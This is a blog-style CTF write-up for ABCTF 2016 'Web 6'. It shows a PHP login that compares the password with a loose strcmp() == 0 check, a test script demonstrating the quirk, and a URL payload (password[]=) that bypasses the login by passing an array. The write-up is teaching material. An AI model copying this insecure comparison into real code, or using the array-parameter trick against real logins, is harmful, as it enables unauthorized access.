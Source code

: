 +++
creatordisplayname = "whatbatman"
creatoremail = "whatbatman@protonmail.com"
date = "2017-05-02T13:09:45Z"
description = "Learn a great PHPism and why you should never use PHP"
lastmodifierdisplayname = "whatbatman"
lastmodifieremail = "whatbatman@protonmail.com"
tags = ["CTF", "PHP", "pwn"]
title = "ABCTF 2016 Web 6 -- PHPism Saves the Day"

[menu]

  [menu.main]
    identifier = "ABCTF"
    parent = "CTF"
    weight = 10

+++

The ABCTF 2016 challenge 'web 6' was pretty fun, and furthered my belief that PHP is the best worst language ever. 

For the challenge we are provided with the following code, and have to bypass the login.

    <?php
    $FLAGWEB6 = (file_get_contents("flag.txt"));
    $PASSWORD =  (file_get_contents("flag.txt")); //haha

    if(isset($_GET['password'])){

    if(strcmp($PASSWORD, $_GET['password']) == 0){
            $success = true;
        }
        else{
            $success = false;
        }
    }
    else {
        $success = false;
    }
    ?\>

This one is fairly easy if you know a great PHPism, `strcmp()` will return `0` if there is an error from comparing an object.

To test this I wrote some little test code, which will print "zero!" despite the error:

    <?php
            $test = array('h','e','l','l','o');
            if (strcmp($test, "beans") == 0) {
                    echo "zero!";
            } else {
                    echo "not zero :( ";
            }
    ?>

    dank@memes:~# php test.php
    PHP Warning:  strcmp() expects parameter 1 to be string, array given in /root/test.php on line 3
    zero!dank@memes:~#
This means we can simply tack on some `[]` to the `password` parameter, like so:
`http://yrmyzscnvh.abctf.xyz/web6/?password[]=hi`
